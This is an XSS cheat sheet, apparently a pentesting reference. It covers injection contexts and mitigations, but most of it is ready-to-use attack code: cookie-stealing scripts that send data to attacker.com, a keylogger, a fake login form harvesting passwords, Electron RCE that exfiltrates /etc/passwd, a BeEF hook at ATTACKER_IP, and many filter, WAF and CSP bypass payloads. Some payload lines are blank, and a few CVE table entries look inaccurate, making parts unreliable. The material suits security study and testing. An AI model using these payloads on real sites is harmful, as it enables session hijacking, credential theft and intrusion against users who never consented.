

# Cross-Site Scripting (XSS)

> **XSS lets an attacker inject JavaScript into a page that runs inside another user's browser — stealing cookies, hijacking sessions, or taking full control of what the victim sees and does.**

---

## 🧠 What Is It? (Beginner Explanation)

Imagine you're on a forum. You post a message. Another user views your message — and their browser *executes code you embedded in it*. That's XSS.

The browser doesn't know the JavaScript came from an attacker — it trusts the page it loaded from, so it runs the script with full access to that page's cookies, DOM, and session context.

**The three types:**

| Type | Stored? | Where payload lives | Who gets hit |
|------|---------|---------------------|--------------|
| Reflected | No | Server reflects it in response | Anyone who clicks the crafted link |
| Stored | Yes | Saved in DB / server | Every user who loads the page |
| DOM-based | No | Processed by client-side JS | Anyone who clicks the crafted link |

---

## 🏗️ How It Works (Technical Deep Dive)

### Reflected XSS
The attacker crafts a URL containing a payload. The server reads the parameter and includes it in the HTML response *without sanitizing it*. The victim's browser parses and executes it.

```
GET /search?q=<script>alert(1)</script> HTTP/1.1
Host: vulnerable.com

Response:
<p>Results for: <script>alert(1)</script></p>
```

The server reflected the input back. Browser sees `<script>` tag, executes it.

### Stored (Persistent) XSS
The payload is saved in a database (comment, username, message). Every user who loads that content triggers the payload.

```
POST /comment HTTP/1.1
body=<script>fetch('https://evil.com/?c='+document.cookie)</script>

# Payload is saved. Every visitor's browser executes it.
```

### DOM-Based XSS
The server response is fine — but client-side JavaScript takes user-controlled data (URL hash, query string) and writes it directly to the DOM using dangerous sinks.

```javascript
// Vulnerable code
document.getElementById('output').innerHTML = location.hash.substring(1);

// Attack URL:
https://victim.com/page#
```

No server involvement in the injection. The browser does it to itself.

---

## 📊 Diagram



---

## ⚙️ Technical Details

### Injection Contexts

The same payload doesn't work everywhere. You must understand *where* your input lands in the rendered HTML.

#### 1. HTML Context
Your input is between HTML tags.
```html
<p>Hello, INPUT</p>
```
Payload: introduce new tags.
```html
<p>Hello, <script>alert(1)</script></p>
<p>Hello, </p>
```

#### 2. Attribute Context
Your input lands inside an HTML attribute.
```html
<input value="INPUT">
<a href="INPUT">
```
Payloads:
```html
<!-- Break out of attribute, inject event handler -->
<input value=" " onmouseover="alert(1)" x="
<input value="><script>alert(1)</script>

<!-- For href attributes -->
<a href="javascript:alert(1)">Click me</a>
```

#### 3. JavaScript String Context
Your input is inside a JS string literal.
```javascript
var name = 'INPUT';
var name = "INPUT";
```
Payloads:
```javascript
// Single-quoted string
'; alert(1); //
'; alert(1)/*

// Double-quoted string
"; alert(1); //
```

#### 4. JavaScript Template Literal Context
```javascript
var greeting = `Hello ${INPUT}`;
```
Payload:
```javascript
${alert(1)}
```

#### 5. URL Context
```html
<a href="INPUT">Link</a>

```
Payload:
```
javascript:alert(1)
data:text/html,<script>alert(1)</script>
```

#### 6. CSS Context
```html
<style>INPUT</style>
<div style="color:INPUT">
```
Payload (IE legacy):
```css
expression(alert(1))
```
Modern injection:
```html
<div style="background:url('javascript:alert(1)')">
```

---

## 🔴 Attack Surface & Exploitation

### Session Theft (Cookie Exfiltration)

The classic XSS attack: steal `document.cookie` and send it to your server.

```javascript
// Basic cookie theft
<script>
  new Image().src = 'https://attacker.com/steal?c=' + encodeURIComponent(document.cookie);
</script>

// Via fetch
<script>
  fetch('https://attacker.com/steal?c=' + btoa(document.cookie));
</script>

// More reliable with XMLHttpRequest
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://attacker.com/?cookie=' + document.cookie, true);
  xhr.send();
</script>
```

Set up your listener:
```bash
# Python simple HTTP server to catch exfiltrated data
python3 -m http.server 8080

# Netcat listener
nc -lvnp 8080
```

### Keylogger

```javascript
<script>
  document.addEventListener('keydown', function(e) {
    fetch('https://attacker.com/keys?k=' + encodeURIComponent(e.key));
  });
</script>
```

### Credential Harvesting (Fake Login Form)

```javascript
<script>
  document.body.innerHTML = '<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:#fff;z-index:9999">' +
    '<h2>Session expired. Please log in again.</h2>' +
    '<form action="https://attacker.com/harvest" method="POST">' +
    'Username: <input name="user"><br>' +
    'Password: <input type="password" name="pass"><br>' +
    '<input type="submit" value="Login">' +
    '</form></div>';
</script>
```

### CSRF via XSS

XSS bypasses CSRF protections because same-origin policy is satisfied.

```javascript
<script>
// Read CSRF token from page
var token = document.querySelector('input[name="csrf_token"]').value;

// Make authenticated request on victim's behalf
var xhr = new XMLHttpRequest();
xhr.open('POST', '/change-email', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('email=attacker@evil.com&csrf_token=' + token);
</script>
```

### Port Scanning via XSS

```javascript
<script>
  var ports = [21, 22, 23, 80, 443, 3306, 5432, 6379, 8080, 8443];
  ports.forEach(function(port) {
    var start = Date.now();
    var img = new Image();
    img.onerror = function() {
      var time = Date.now() - start;
      fetch('https://attacker.com/scan?port=' + port + '&time=' + time);
    };
    img.src = 'http://127.0.0.1:' + port;
  });
</script>
```

### XSS to RCE in Electron Apps

Electron apps use Node.js. If `nodeIntegration: true` and there's XSS:

```javascript
// Execute OS commands via Node.js
<script>
  require('child_process').exec('calc.exe');
  require('child_process').exec('id > /tmp/pwned.txt');
</script>

// Read files
<script>
  var fs = require('fs');
  var data = fs.readFileSync('/etc/passwd', 'utf8');
  fetch('https://attacker.com/?data=' + btoa(data));
</script>
```

---

## 💥 Payloads & Examples

### Basic Payloads

```html
<!-- Classic -->
<script>alert(1)</script>
<script>alert(document.cookie)</script>
<script>alert(document.domain)</script>

<!-- Break out of attribute then inject -->
"><script>alert(1)</script>
'><script>alert(1)</script>
```

### Event Handler Payloads

```html
<!-- Image error -->


<!-- SVG onload -->
<svg onload=alert(1)>
<svg/onload=alert(1)>

<!-- Body onload -->
<body onload=alert(1)>

<!-- Details ontoggle (HTML5) -->
<details open ontoggle=alert(1)>

<!-- Input autofocus onfocus -->
<input autofocus onfocus=alert(1)>

<!-- Select autofocus -->
<select autofocus onfocus=alert(1)>

<!-- Video onerror -->
<video src=x onerror=alert(1)>

<!-- Marquee onstart -->
<marquee onstart=alert(1)>scroll</marquee>

<!-- Object data -->
<object data="javascript:alert(1)">

<!-- Iframe src -->
<iframe src="javascript:alert(1)">

<!-- Link href -->
<a href="javascript:alert(1)">click</a>

<!-- onmouseover -->
<div onmouseover="alert(1)">hover me</div>

<!-- Form submission -->
<form action="javascript:alert(1)"><input type=submit></form>
```

### Filter Bypass Payloads

```html
<!-- Case variation -->
<ScRiPt>alert(1)</ScRiPt>
<SCRIPT>alert(1)</SCRIPT>

<!-- Null byte (some parsers) -->
<scr\x00ipt>alert(1)</scr\x00ipt>

<!-- Comment in tag -->
<scr<!---->ipt>alert(1)</scrip<!---->t>

<!-- HTML entities in event handler -->


<!-- Decimal HTML entities -->


<!-- Hex HTML entities -->


<!-- Tab/newline in tag -->


<!-- No quotes on attribute -->


<!-- Slash instead of space -->


<!-- Double encoding -->
%253Cscript%253Ealert(1)%253C/script%253E

<!-- Unicode full-width chars -->
＜script＞alert(1)＜/script＞

<!-- Base64 eval bypass -->
<script>eval(atob('YWxlcnQoMSk='))</script>

<!-- String.fromCharCode bypass -->
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
```

### WAF Evasion Payloads

```html
<!-- SVG with various event handlers -->
<svg onload=alert`1`>
<svg><script>alert(1)</script></svg>
<svg><animate onbegin=alert(1) attributeName=x dur=1s>

<!-- Math element -->
<math><mtext><table><mglyph><style><!--</style>

<!-- Template element -->
<template></template>

<!-- xss via contenteditable -->
<div contenteditable=true onpaste=alert(1)></div>

<!-- Object -->
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">

<!-- Via CSS import -->
<style>@import 'javascript:alert(1)'</style>

<!-- Link preload -->
<link rel=import href="data:text/html,<script>alert(1)</script>">
```

### Payload Table by Context

| Context | Example Source | Breakout Payload |
|---------|---------------|------------------|
| HTML body | `<p>INPUT</p>` | `<script>alert(1)</script>` |
| HTML attribute (double-quoted) | `<input value="INPUT">` | `" onmouseover="alert(1)" x="` |
| HTML attribute (single-quoted) | `<input value='INPUT'>` | `' onmouseover='alert(1)' x='` |
| HTML attribute (unquoted) | `<input value=INPUT>` | `onmouseover=alert(1) x=` |
| JS string (single-quoted) | `var x = 'INPUT';` | `'; alert(1)//` |
| JS string (double-quoted) | `var x = "INPUT";` | `"; alert(1)//` |
| JS template literal | `` var x = `${INPUT}`; `` | `${alert(1)}` |
| URL href | `<a href="INPUT">` | `javascript:alert(1)` |
| Inside `<script>` tag comment | `//INPUT` | `%0aalert(1)` |
| JSON embedded in HTML | `{"key":"INPUT"}` | `"}; alert(1); {"x":"` |

### DOM XSS Sinks

```javascript
// Dangerous JavaScript sinks to look for
document.write()
document.writeln()
element.innerHTML
element.outerHTML
element.insertAdjacentHTML()
eval()
setTimeout(string)      // setTimeout("alert(1)", 0)
setInterval(string)
new Function(string)
location.href = INPUT
location.assign(INPUT)
location.replace(INPUT)
$.html()               // jQuery
$().append(INPUT)
$().after(INPUT)
document.createElement('script').src = INPUT
```

### DOM XSS Sources (User Controlled Data)

```javascript
location.href
location.hash
location.search         // query string
location.pathname
document.URL
document.documentURI
document.referrer
window.name
document.cookie
localStorage.getItem()
sessionStorage.getItem()
IndexedDB values
postMessage data
```

---

## 🔍 Mutation XSS (mXSS)

The browser can *mutate* (change) HTML when parsing and re-serializing it. Sanitizers that check the string form may miss payloads that become dangerous after the browser processes them.

```javascript
// Sanitizer checks this string and sees nothing dangerous:
<noscript><p title="</noscript>">

// But when innerHTML is set, the browser's HTML parser
// creates a different DOM tree than the sanitizer expected.
// After innerHTML assignment, the content is:
// <noscript><p title="</noscript>
// 
// The img tag is now outside noscript and executes!
```

mXSS affects: DOMPurify (historical), Angular sanitizer, other client-side sanitizers.

---

## 🕵️ Blind XSS

You inject a payload that executes in a context you can't see — admin panel, PDF generator, log viewer, ticket system.

**Setup XSSHunter:**
```bash
# Use xsshunter.com or self-host
# Your payload POSTs full page context back to you
```

**Blind XSS Payloads:**
```javascript
// XSSHunter-style payload
"><script src=https://yourxsshunter.xss.ht></script>
'><script src=https://yourxsshunter.xss.ht></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'https://yourxsshunter.xss.ht\';document.body.appendChild(a)')

// Self-hosted blind XSS collector
"><script>
  var d = document;
  var payload = {
    cookies: d.cookie,
    url: d.location.href,
    referrer: d.referrer,
    html: d.documentElement.innerHTML
  };
  fetch('https://attacker.com/collect', {
    method: 'POST',
    body: JSON.stringify(payload)
  });
</script>
```

**Common blind XSS locations:**
- Contact forms → reviewed by support staff
- Feedback forms → admin panel
- Username field → user management page
- User-Agent header → log viewer
- PDF generators → injected into PDF
- CSV exports → Excel formula injection (different attack)
- Error messages → developer tools

---

## 🧩 CSP Bypass Techniques

Content Security Policy restricts where scripts can load from. Bypasses:

### JSONP Endpoint Bypass
```html
<!-- If trusted domain has JSONP endpoint -->
<script src="https://trusted.com/api?callback=alert(1)">
</script>
```

### Open Redirector Bypass
```html
<!-- If trusted.com has open redirect to attacker.com -->
<script src="https://trusted.com/redirect?url=https://attacker.com/evil.js">
</script>
```

### Angular (ng) Sandbox Escape (legacy)
```javascript
// Angular 1.x sandbox escape
{{constructor.constructor('alert(1)')()}}
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}

// Angular 1.6+
{{$on.constructor('alert(1)')()}}
```

### `unsafe-inline` with Nonces (if nonce leaked)
```html
<!-- If nonce is predictable or leaked in response -->
<script nonce="LEAKED_NONCE">alert(1)</script>
```

### `base-uri` bypass
```html
<!-- If base-uri not set in CSP -->
<base href="https://attacker.com/">
<!-- Now all relative script sources load from attacker.com -->
```

---

## ⚛️ Framework-Specific XSS

### React
```jsx
// DANGEROUS - dangerouslySetInnerHTML bypasses React's escaping
<div dangerouslySetInnerHTML={{__html: userInput}} />

// DANGEROUS - href with user input
<a href={userInput}>link</a>  // If userInput = "javascript:alert(1)"

// Safe alternative
import DOMPurify from 'dompurify';
<div dangerouslySetInnerHTML={{__html: DOMPurify.sanitize(userInput)}} />
```

### Angular
```html
<!-- DANGEROUS - bypassSecurityTrustHtml -->
<div [innerHTML]="trustedHtml"></div>
<!-- Where trustedHtml = this.sanitizer.bypassSecurityTrustHtml(userInput) -->

<!-- ng-bind-html requires $sce.trustAsHtml() in AngularJS -->
<p ng-bind-html="userInput"></p>
```

### Vue.js
```html
<!-- DANGEROUS - v-html directive -->
<div v-html="userInput"></div>

<!-- Template injection if user controls template string -->
<!-- Vue compiles template strings - if attacker controls template: -->
{{ constructor.constructor('alert(1)')() }}
```

---

## 🐝 BeEF Framework (Browser Exploitation Framework)

```bash
# Install BeEF
git clone https://github.com/beefproject/beef
cd beef && ./install

# Run BeEF
./beef

# Hook URL: http://YOUR_IP:3000/hook.js
# Admin panel: http://YOUR_IP:3000/ui/panel (beef:beef)
```

**Hook payload:**
```html
<script src="http://ATTACKER_IP:3000/hook.js"></script>
```

**BeEF commands once hooked:**
- Get cookies, user-agent, browser version
- Screenshot of victim screen
- Redirect browser
- Proxy victim's HTTP traffic
- Execute custom JS
- Port scan internal network
- Phishing overlays
- Webcam access (if permission granted)
- Keystroke logging

---

## 🛠️ Tools & Commands

### Manual Testing with Burp Suite
```
1. Intercept request
2. Send to Repeater
3. Inject payloads in each parameter
4. Check response: Ctrl+F for your input
5. Determine context
6. Craft context-specific payload
```

### XSStrike
```bash
# Install
pip3 install xsstrike

# Basic scan
python3 xsstrike.py -u "https://target.com/search?q=test"

# POST request
python3 xsstrike.py -u "https://target.com/search" --data "q=test"

# Crawl and test
python3 xsstrike.py -u "https://target.com" --crawl

# Blind XSS
python3 xsstrike.py -u "https://target.com/search?q=test" --blind
```

### Dalfox
```bash
# Install
go install github.com/hahwul/dalfox/v2@latest

# Basic scan
dalfox url "https://target.com/search?q=test"

# With cookies
dalfox url "https://target.com/search?q=test" -C "session=abc123"

# Pipe URLs from file
cat urls.txt | dalfox pipe
```

### Browser Console Testing
```javascript
// Quick DOM XSS check
location.hash = ""

// Check innerHTML sinks
document.body.innerHTML = ""
```

---

## 🔍 Detection

### Finding Reflected XSS
```
1. Find all input points: URL params, form fields, headers
2. Insert unique string: XSS1234TEST
3. Check response for reflection
4. Determine context of reflection
5. Choose appropriate payload for that context
6. Confirm execution (alert/console.log)
```

### Finding Stored XSS
```
1. Submit unique markers in all input fields
2. Navigate to all pages that display user content
3. Check if marker appears
4. Determine context
5. Inject payload
```

### Finding DOM XSS
```javascript
// Look in JS source for dangerous sinks
grep -r "innerHTML\|outerHTML\|document.write\|eval\|setTimeout" *.js

// Check what feeds into sinks
// Trace: location.hash → some variable → innerHTML

// Tools: DOMinator, Burp DOM Invader
```

### WAF Detection
```bash
# Check for WAF presence
curl -s -o /dev/null -w "%{http_code}" "https://target.com/?<script>alert(1)</script>"
# 403 = WAF blocking
# 200 = might be unprotected

# Identify WAF
wafw00f https://target.com
```

---

## 🛡️ Mitigation

### Output Encoding (Primary Defense)

```python
# Python - HTML escaping
import html
safe = html.escape(user_input)  # < → &lt;  > → &gt;  & → &amp;

# JavaScript - use textContent not innerHTML
element.textContent = userInput;  # Safe
element.innerHTML = userInput;    # DANGEROUS

# URL encoding
import urllib.parse
safe_url = urllib.parse.quote(user_input)
```

### Content Security Policy

```http
# Strong CSP
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-{random}'; object-src 'none'; base-uri 'self'; form-action 'self';
```

### Input Validation

```python
# Whitelist approach for expected inputs
import re
def validate_username(username):
    if not re.match(r'^[a-zA-Z0-9_]{3,20}$', username):
        raise ValueError("Invalid username")
    return username
```

### HttpOnly Cookie Flag

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict
```
HttpOnly prevents `document.cookie` from reading the cookie in JS.

### DOMPurify for HTML Input

```javascript
import DOMPurify from 'dompurify';

// Sanitize before inserting HTML
element.innerHTML = DOMPurify.sanitize(userInput);

// Strict config
element.innerHTML = DOMPurify.sanitize(userInput, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong'],
  ALLOWED_ATTR: []
});
```

### Trusted Types API

```javascript
// Modern browser API to prevent DOM XSS
trustedTypes.createPolicy('default', {
  createHTML: (string) => DOMPurify.sanitize(string),
});
```

---

## 🔬 Testing Methodology (Step by Step)

```
Step 1: Enumerate all input vectors
  - URL parameters, form fields, JSON keys
  - HTTP headers (User-Agent, Referer, X-Forwarded-For, custom headers)
  - Cookie values
  - Path segments

Step 2: Insert unique probe
  - XSStest1234ABCD
  - Check response for reflection
  - Check encoded vs unencoded

Step 3: Identify context
  - Open DevTools → Inspect element
  - Locate your probe in the DOM
  - Determine: HTML/attribute/JS/URL context

Step 4: Test basic payloads for that context
  - Start with least disruptive: alert(1)
  - If blocked, try filter bypass techniques

Step 5: Exploit
  - Build actual attack payload (cookie theft, etc.)
  - Test CSP if present
  - Find CSP bypasses

Step 6: Document
  - Screenshot of alert/execution
  - Full request/response
  - Severity based on context and data accessible
```

---

## 📋 Real CVE Examples

| CVE | Application | Type | Details |
|-----|-------------|------|---------|
| CVE-2021-22864 | GitHub | Stored XSS | In Markdown rendering |
| CVE-2020-11022 | jQuery < 1.9.0 | DOM XSS | jQuery .html() passing HTML strings |
| CVE-2019-11358 | jQuery < 3.4.0 | Prototype pollution → XSS | |
| CVE-2022-36067 | vm2 sandbox | XSS → RCE | Sandbox escape in Node.js vm2 |
| CVE-2021-41773 | Apache 2.4.49 | Path traversal + RCE | (related) |
| CVE-2023-4863 | WebP libwebp | Heap overflow (used in browsers) | |
| CVE-2024-4367 | PDF.js | XSS via font name injection | Arbitrary JS in PDF viewer |

---

## 📚 References

- [PortSwigger XSS Labs](https://portswigger.net/web-security/cross-site-scripting)
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [HTML5 Security Cheatsheet](https://html5sec.org/)
- [PayloadsAllTheThings XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [XSS Payload List](https://github.com/payloadbox/xss-payload-list)
- [DOMPurify](https://github.com/cure53/DOMPurify)
- [BeEF Framework](https://beefproject.com/)
- [XSSHunter](https://xsshunter.trufflesecurity.com/)
- [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
